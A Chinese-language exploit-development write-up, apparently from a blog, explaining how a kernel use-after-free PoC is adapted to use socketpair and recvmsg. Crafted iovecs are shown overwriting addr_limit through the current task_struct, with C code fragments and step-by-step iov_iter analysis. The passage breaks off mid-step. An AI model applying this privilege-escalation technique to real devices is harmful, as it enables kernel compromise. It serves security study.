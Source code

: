 ### 3. 适配任意写入逻辑

最开始 PoC 的第一步 `find_current()` 已经改完了，现在考虑第二步 `obtain_kernel_rw()`. 这一步写 addr_limit 改用了 `socketpair()` 而非 `pipe()`，但两者没有太大区别。核心的 iovec 操作逻辑一个是 `copy_page_from_iter_iovec()` 一个是 `copy_to_iter()`，其中 iov_iter 操作逻辑极为近似，所以分析思路一样。其他一些诸如双端均可读写、不会自带阻塞之类的差异都不影响分析。

socket pair 上，接收进 iovec 的函数是 `recvmsg()`，对应发送端用个简单的 `write()` 就行。

PoC 里面构造的接收用 iovec 如下：

```c
bio.iovs[9].iov_base  = dummy_page;         // 对应 PoC 的 binder_thread->wait.lock
bio.iovs[9].iov_len   = 1;                  // 对应 PoC 的 binder_thread->wait.head.next
bio.iovs[10].iov_base = (void *)0xdeadbeef; // 对应 PoC 的 binder_thread->wait.head.prev
bio.iovs[10].iov_len  = 0x8 + 2 * 0x10;
bio.iovs[11].iov_base = (void *)0xbeefdead;
bio.iovs[11].iov_len  = 8;

u64 second_write_chunk[] = {
    1,
    0xdeadbeef,
    0x8 + 2 * 0x10,
    current + 0x8, // current 就是前面藏在 binder_thread 尾巴上的 task_struct *
    8,
    0xfffffffffffffffe
};
```

socket pair 初始化好后立即 `write()` 一字节进去，然后开始 `recvmsg()`，再开始触发漏洞，最后写入 `second_write_chunk`. 这里发生了这么些事：

1. 立即 `write()` 一字节垃圾数据进去：第一个 iovec 用完，跳至下一个 iovec

   此时 iov_iter 为：

   ```c
   struct iov_iter {
   	size_t iov_offset;       // 0
   	size_t count;            // (1 + 0x8 + 2 * 0x10 + 8)  - (1) = 0x30
       const struct iovec *iov; // &bio.iovs[10]
   };
   ```

2. 触发漏洞：iovec 变为：

   ```c
   bio.iovs[9].iov_base  = dummy_page + 0x10001;      // 他（spinlock）改变了 iov_base
   bio.iovs[9].iov_len   = &binder_thread->wait.head; // 这个 iov 已经用完跳过去了，这两个怎么变都行
   bio.iovs[10].iov_base = &binder_thread->wait.head; // 我 写 我 自 己，指向 &bio.iovs[9].iov_len
   bio.iovs[10].iov_len  = 0x8 + 2 * 0x10;            // 从这开始都没变
   bio.iovs[11].iov_base = (void *)0xbeefdead;
   bio.iovs[11].iov_len  = 8;
   ```

   没有读写动作，iov_iter 没变。

3. 写入 `second_write_chunk`. 注意此时 iov 是 `bio.iovs[10]`，它的 base 已经变成 `&binder_thread->wait.head`，也就是 `&bio.iovs[9].iov_len`；它的 iov_len 是 0x28，小于 `second_write_chunk` 的 0x30，那么 `copy_to_iter()` 会分两次来写这个 chunk，一次写一个 iovec. 第一次 copy 写完这个 iovec 的结果是：
